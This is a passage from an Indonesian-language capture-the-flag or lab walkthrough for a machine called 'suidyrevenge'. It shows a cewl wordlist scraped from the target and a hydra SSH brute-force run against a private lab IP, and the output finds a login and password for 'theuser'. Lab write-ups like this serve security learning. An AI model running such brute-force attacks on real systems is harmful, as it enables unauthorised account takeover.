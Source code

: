
shell as theuser
-----------------

karena kelamaan, saya sambi dengan scraping text yang ada pake `cewl` untuk ngetest aja apakah bisa dibruteforce atau tidak menggunakan `hydra`.

    ╭─ via [machines/suidyrevenge]
    ╰─ cewl $victim > wordlists                                                                                                
    ╭─ via [machines/suidyrevenge]
    ╰─ cat wordlist                                                                                                            
    the
    admin
    theuser
    not
    mudra
    best
    proud
    announce
    that
    anymore
    our
    servers
    Our
    world
    suidy
    only
    changed
    password
    different
    but
    had
    time
    put
    backdoors
    php
    from
    KALI
    into
    supersecure
    keep
    access
    ╭─ via [machines/suidyrevenge]
    ╰─ hydra -L wordlist -P wordlist -f $victim ssh -s -V -I -t 4
    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-05 01:54:49
    [WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 961 login tries (l:31/p:31), ~241 tries per task
    [DATA] attacking ssh://192.168.56.28:22/
    [STATUS] 39.00 tries/min, 39 tries in 00:01h, 922 to do in 00:24h, 4 active
    [22][ssh] host: 192.168.56.28   login: theuser   password: different
    [STATUS] attack finished for 192.168.56.28 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-05 01:56:55
    